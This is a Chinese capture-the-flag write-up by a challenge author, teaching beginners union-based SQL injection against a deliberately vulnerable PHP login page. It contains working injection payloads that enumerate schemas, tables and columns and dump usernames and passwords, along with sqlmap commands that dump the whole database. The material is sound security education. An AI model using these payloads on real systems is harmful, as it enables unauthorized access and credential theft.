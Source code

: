 ## 来自本题出题人的wp

本题的sql注入没有设置任何的过滤，其实只是想让新手了解sql注入的原理，简直和我出的misc题一样简单！（如果你们有做不出的或觉得复杂的misc，那一定是diffany出的捏）

如果有下载本题释出的环境，可以看到压缩包中仅有的一个index.php，其中第36行的`SELECT * FROM users WHERE username='$username' AND password='$password'`即是需要利用的sql查询语句。想要复现的同学可以选择取消第37行的注释，你的输入将与该sql语句同时输出至前端，可以更清晰地看到你的输入对该语句产生了什么影响。

以下是手动注入的过程和说明，此处默认你已经掌握了一丢丢的sql知识。每步重点会**标粗**，每步的说明不一定很详细，建议可以看看[sqli-labs_04_less01补充基础知识](https://www.bilibili.com/video/BV1e441127Rd?p=4&vd_source=a69f1b8fb2369c8c358ded36e9abbc7d)，其实看完less01这三集，不看我的wp你也能直接做出来的。哦对，还是建议先做“ez_php_source”，毕竟我这题用的不是get传参，得先去那题学点知识，要是傻乎乎的在url后疯狂输出可不会有什么反应的哦

1. 首先可以随便输入点什么，看看网页输出发生了什么变化。比如用户名输入1，密码输入2，会发现输出了“用户: 1 不存在或密码错误！”。当然其实这不重要，重要的是如果你在**输入框内输入了一个单引号“ ' ”**，千万注意是英文的单引号，然后网页会返回“啊哦，出错了！”。恭喜你，你已经**造成了sql语句闭合的错误**了！至于为什么是单引号，反正闭合能用的符号就那几个，都试试就行，单引号是比较常见的，当然你也可以直接看源码，就知道我用的是单引号了

2. 既然用户名和密码的输入都能造成注入，那肯定选用户名下手了，至少我的输入不会变成黑色圆点。然后**输入`' order by 3 #`**返回“用户: ' order by 3 # 不存在或密码错误！”，**输入`' order by 4 #`**返回“啊哦，出错了！”，说明我们不能order by 4。先说一下这个order by是啥，这个一般用于输出时作为排序条件使用，具体可以自行查一查，不展开说明。这里只解释一下此处order by 4报错是因为当前的表（table）没有第四列（column），而order by 3没有报错，则说明当前表有第三列，**两个信息结合得出结论：当前表总共有三列**

3. 再接下来，我们想要看到admin的密码，作为有回显的sql注入，直接把想要的信息显示到网页上是个很方便的做法。注意到，当输入不构成报错时，网页上总会输出“用户：xxx”，那么是不是可以把信息输出到这里来呢。**输入`' union select 1,2,3 #`**，可以看到网页输出“用户：2 欢迎登录！”，说明**位置“2”是可以返回信息的**。union select和select基本就是一个东西，你也可以在mysql的命令行内试试下面输入的语句，可以看到输出大概长这样：

   ```
   MariaDB [ez_sql]> select * from ez_sql.users where username = '1' union select 1,2,3;
   +----+----------+----------+
   | id | username | password |
   +----+----------+----------+
   |  1 | 2        | 3        |
   +----+----------+----------+
   1 row in set (0.000 sec)
   ```

   此处使用本题的表做演示。当然，由于不存在username为1的数据，所以只显示成了这样

4. 既然“2”可以回显信息，那么我们就要在这里动手了。不过在此之前还有个问题，此题仅显示查询的第一行信息。比如你输入`admin' union select 1,2,3 #`，admin用户存在，网页输出了“用户：admin 欢迎登录！”，但如果你在mysql命令行执行，会得到如下结果：

   ```
   MariaDB [ez_sql]> select * from users where username = 'admin' union select 1,2,3;
   +----+----------+---------------------------+
   | id | username | password                  |
   +----+----------+---------------------------+
   |  8 | admin    | ROIS{sqli_1s_in7ere5ting} |
   |  1 | 2        | 3                         |
   +----+----------+---------------------------+
   2 rows in set (0.000 sec)
   ```
   
   存在第二行查询结果，却没有返回到网页显示。因此需要使用group_concat将所有结果放在同一行内，比如这样：
   
   ```
   # 使用前
   MariaDB [ez_sql]> select 1,2,3 from users;
   +---+---+---+
   | 1 | 2 | 3 |
   +---+---+---+
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   +---+---+---+
   8 rows in set (0.000 sec)
   
   # 使用后
   MariaDB [ez_sql]> select 1,group_concat(2),3 from users;
   +---+-----------------+---+
   | 1 | group_concat(2) | 3 |
   +---+-----------------+---+
   | 1 | 2,2,2,2,2,2,2,2 | 3 |
   +---+-----------------+---+
   1 row in set (0.000 sec)
   ```
   
   所以使用group_concat可以将所有信息整合到一行来，这样我们就可以愉快地在网页输出上看到你所查到的信息了
   
   **查库名：`' union select 1,group_concat(schema_name),3 from information_schema.schemata #`**
   
   返回的信息中“ez_sql”即是本题的数据库
   
   **查表名：`' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='ez_sql' #`**
   
   返回的表仅有“users”，所以查这张表内的数据即可
   
   **查列名：`' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`**
   
   可能还会返回一些其他奇怪的东西，不过关键在于“username,password”这两列
   
   **查信息：`' union select 1,group_concat(concat_ws(':',username,password)),3 from ez_sql.users #`**
   
   这样会将所有的用户名和密码以“username:password”的形式输出出来，当然你也可以选择用其他的语句带出信息，比如使用不同的分隔符，比如只带出密码等等。根据本题说明，admin的密码就是flag啦

手注的教程告一段落，但我们还可以使用强大的工具sqlmap！鉴于本题传参使用post方式，那么设置好参数就可以一把梭啦。以下是使用sqlmap的命令，不对参数进行说明，遇到暂停需要选择y/n（yes or no）直接回车即可，感兴趣的可以自行尝试

1. 首先可以抓包或者hackbar看一下post的参数，例如用户名：1 密码：1的post参数显示是`username=1&password=1`，这样就够了
2. 查库名：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --dbs`
3. 查表名：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --tables -D ez_sql`
4. 输出全表：`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1' --dump -D ez_sql -T users`

除了使用url和post，还可以在第一步抓包后将http请求包保存下来，比如保存为“http.txt”，然后将以上命令的`sqlmap -u http://题目地址:28080/index.php --data='username=1&password=1'` 替换为 `sqlmap -r http.txt`，是不是命令缩短很多，说不定还有自动寻找其他注入点的神奇功效

